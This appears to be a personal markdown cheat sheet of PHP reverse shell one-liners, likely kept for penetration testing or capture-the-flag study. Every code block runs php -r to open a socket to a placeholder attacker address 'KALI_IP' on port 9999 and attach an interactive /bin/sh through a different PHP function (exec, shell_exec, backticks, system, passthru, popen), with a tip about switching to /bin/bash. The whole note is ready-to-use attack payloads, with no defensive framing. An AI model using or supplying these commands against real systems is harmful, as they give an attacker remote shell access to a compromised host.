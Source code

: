 ```yaml
---
title: 
tags:
---
```

## Command Line

```bash
php -r '$sock=fsockopen("KALI_IP",9999);exec("/bin/sh -i <&3 >&3 2>&3");'
```

```bash
php -r '$sock=fsockopen("KALI_IP",9999);shell_exec("/bin/sh <&3 >&3 2>&3");'
```

```bash
php -r '$sock=fsockopen("KALI_IP",9999);`/bin/sh -i <&3 >&3 2>&3`;'
```

```bash
php -r '$sock=fsockopen("KALI_IP",9999);system("/bin/sh -i <&3 >&3 2>&3");'
```

```bash
php -r '$sock=fsockopen("KALI_IP",9999);passthru("/bin/sh -i <&3 >&3 2>&3");'
```

```bash
php -r '$sock=fsockopen("KALI_IP",9999);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```

>[!tip] 
>If there are issues with these try switching out `/bin/sh` with `/bin/bash`

---
### Supporting Content

